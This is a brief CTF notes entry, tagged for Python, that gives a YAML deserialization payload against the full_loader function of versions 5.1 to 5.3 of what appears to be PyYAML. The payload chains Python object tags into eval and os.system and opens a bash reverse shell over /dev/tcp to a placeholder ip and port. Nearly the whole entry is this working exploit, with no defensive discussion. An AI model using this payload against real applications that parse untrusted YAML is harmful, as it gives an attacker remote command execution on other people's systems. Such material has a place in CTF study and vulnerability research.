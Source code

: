 tags:: CTF/Python

- # payload
	- 针对5.1 ~ 5.3版本的full_loader函数
		- ```yaml
		  !!python/object/new:str
		    args: []
		    state: !!python/tuple
		      - "__import__('os').system('bash -c \"bash -i >& /dev/tcp/ip/port <&1\"')"
		      - !!python/object/new:staticmethod
		        args: []
		        state:
		          update: !!python/name:eval
		          items: !!python/name:list
		  ```